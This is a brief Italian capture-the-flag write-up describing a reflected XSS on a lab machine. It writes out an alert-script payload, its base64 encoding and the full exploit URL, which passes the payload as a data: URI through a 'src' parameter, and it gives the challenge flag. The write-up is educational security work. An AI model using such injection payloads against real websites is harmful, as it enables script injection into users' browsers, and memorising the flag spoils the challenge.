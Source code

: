 # XSS META Data
Nella home del sito l'unica immagine cliccabile (National Security Agency) porta al seguente link:
```
http://192.168.56.134/?page=media&src=nsa
```
Dopo un po di prove con i diversi tipi di attacchi XSS arrivo alla flag usando un attacco che 
modifica i meta passando lo script in base64, lo script che ho usato è:
```html
<script>alert('test')</script>
``` 
che in base64 diventa:
```
PHNjcmlwdD5hbGVydCgndGVzdCcpPC9zY3JpcHQ+
```
Così ho composto il seguente link:
```
http://192.168.56.134/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgndGVzdCcpPC9zY3JpcHQ+
```
Arrivando alla flag:
```
928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D
```
